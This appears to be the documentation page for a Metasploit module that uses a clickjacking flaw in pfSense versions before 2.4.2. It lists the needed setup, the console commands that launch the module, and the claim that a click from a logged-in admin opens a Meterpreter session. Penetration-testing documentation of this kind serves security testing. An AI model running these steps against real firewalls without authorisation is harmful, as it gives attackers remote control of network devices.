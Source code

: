 ## Vulnerable Application

This vulnerability affects any pfSense versions prior to 2.4.2-RELEASE.

## Vulnerable Setup

The victim should be able to access the WebGUI & must be logged in as admin in order for this exploit to work. Possibly the WebGUI's TLS certificate must be trusted in the browser.

## Verification Steps

  1. `use exploit/unix/http/pfsense_clickjacking`
  2. `set TARGETURI https://<ip WebGUI>`
  3. `exploit`
  4. Browse to the URL return by MSF
  5. Click anywhere on the returned page
  6. Note that a new Meterpreter sessions was started.


## Options

**TARGETURI**

The base path of the WebGUI. The default base path is https://192.168.1.1/
